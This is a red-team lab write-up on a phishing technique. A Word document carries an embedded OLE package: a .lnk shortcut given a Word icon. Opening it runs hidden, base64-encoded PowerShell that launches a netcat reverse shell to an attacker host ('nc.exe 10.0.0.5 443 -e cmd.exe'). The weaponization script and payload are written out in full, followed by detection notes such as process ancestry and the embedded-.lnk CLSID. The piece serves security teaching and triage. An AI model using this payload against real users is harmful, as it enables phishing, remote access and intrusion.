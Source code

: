 ```yaml
---
description: 'Phishing, Initial Access using embedded OLE + LNK objects'
---
```


# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files and camouflage them with Ms Word office icon in .doc files to deceive victims to click the embedded file. Once clicked, the embedded file executes the malicious payload.

## Weaponization

Creating an .LNK file that will trigger the payload once executed:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Powershell payload will trigger a rudimentary NC reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the above powershell script is executed, an `.LNK` shortcut is created:

![](../../.gitbook/assets/ole-lnk-shortcut-created.png)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](../../.gitbook/assets/ole-good-document.png)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](../../.gitbook/assets/ole-insert-ole-object-with-icon.png)

![](../../.gitbook/assets/ole-change-icon.png)

Point the package to the .lnk file containing the payload:

![](../../.gitbook/assets/ole-payload.png)

Final result:

![](../../.gitbook/assets/ole-weaponized.png)

## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](../../.gitbook/assets/ole-execution.png)

Confirms execution - note how the reverse shell came back to the attacker:

![](../../.gitbook/assets/ole-execution2.png)

## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell, etc.:

![](../../.gitbook/assets/ole-ancestry1.png)

Soon after, the powershell gets killed and cmd.exe becomes an orphan:

![](../../.gitbook/assets/ole-ancestry2.png)

Like in [T1137: Phishing - Office Macros](t1137-office-vba-macros.md), you can use rudimentary tools on your Windows workstation to quickly triage the document.   
First off, rename the file to a .zip extension and unzip it. Then you can navigate to `word\embeddings` and there you will see an `oleObject.bin` file that contains the malicious `.lnk`:

![](../../.gitbook/assets/ole-embedded-bin.png)

Then you can do a simple `strings` or hexdump against the file and you should immediately see signs of something that should raise your eyebrow\(s\):

```csharp
hexdump.exe -C .\oleObject1.bin
```

![](../../.gitbook/assets/ole-hexdump.png)

As an analyst, one should look for CLSID 00021401-0000-0000-c000-000000000046 in the .bin file, which signifies the .doc contains an embnedded .lnk file. In our case this can be observed here:

![](../../.gitbook/assets/lnk-clsid.png)

{% file src="../../.gitbook/assets/ole.ps1" caption="OLE+LNK Powershell Script" %}

{% file src="../../.gitbook/assets/invoice-fintech-0900541.lnk" caption="Invoice-FinTech-0900541.lnk" %}

{% file src="../../.gitbook/assets/completely-not-a-scam-ole+lnk.docx" caption="Phishing: OLE+Lnk MS Word Doc Package" %}

[https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf](https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf)

